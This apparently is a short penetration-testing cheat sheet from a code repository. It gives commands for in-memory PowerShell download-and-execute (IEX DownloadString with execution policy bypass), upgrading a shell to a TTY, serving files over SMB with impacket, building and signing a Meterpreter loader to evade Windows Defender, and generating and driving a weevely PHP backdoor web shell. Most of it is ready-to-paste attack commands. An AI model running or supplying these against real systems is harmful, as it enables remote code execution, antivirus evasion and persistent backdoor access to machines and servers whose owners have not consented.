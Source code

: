 # Table of contents
* [PowerShell](#powershell)
  * [To load a PS module into the memory](#to-load-a-ps-module-into-the-memory)
* [Utils](#utils)
  * [Shell to TTY](#shell-to-tty)
  * [Sharing files with Windows machine](#sharing-files-with-windows-machine)
* [PrivEsc on Windows](#privesc-on-windows)
  * [Bypassing Windows Defender](#bypassing-windows-defender)

# PowerShell
## To load a PS module into the memory
```powershell
powershell.exe -exec bypass -Command “IEX (New-Object Net.WebClient).DownloadString($URL);
# Here call the modules you want to execute, depending on the usage of what you have downloaded
```
# Utils
## Shell to TTY
```bash
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl + z
stty raw -echo
fg
```
## Sharing files with Windows machine
**NOTE:** This technique is usefull also to share files with any Windows VM *(or the parent host)* 
```bash
impacket-smbserver share [path] -smb2support
```
# PrivEsc on Windows
## Bypassing Windows Defender
There're a [usefull scripts](https://astr0baby.wordpress.com/2019/01/26/custom-meterpreter-loader-in-2019/), from **Astr0baby's blog**, just copy-paste them. 

**NOTE:** There're some replaces needed in the listener.sh script:

1. *Line 12:* remove the ./ from the call to msfconsole
2. *Line 16:* add -job after the run sentence

```bash
./msf-loader.sh
# introduce LHOST
# introduce LPORT
# domain to impersonate?
# The process should have created a 'payload.exe' and also 'payload-signed.exe'
./listener.sh
# Define the LHOST
# Define the LPORT
# Now the payload shall be ran into the target
```

# WebApplication Hacking
## Create a PHP Backdoor shell
The software named **weevely** will help on this matter. It's a software that crates the php file to upload to the exploited
server.

```bash
# Generate new agent
weevely generate <password> <path>
# Run terminal or command on the target
weevely <URL> <password> [cmd]
# Recover an existing session
weevely session <path> [cmd]
```
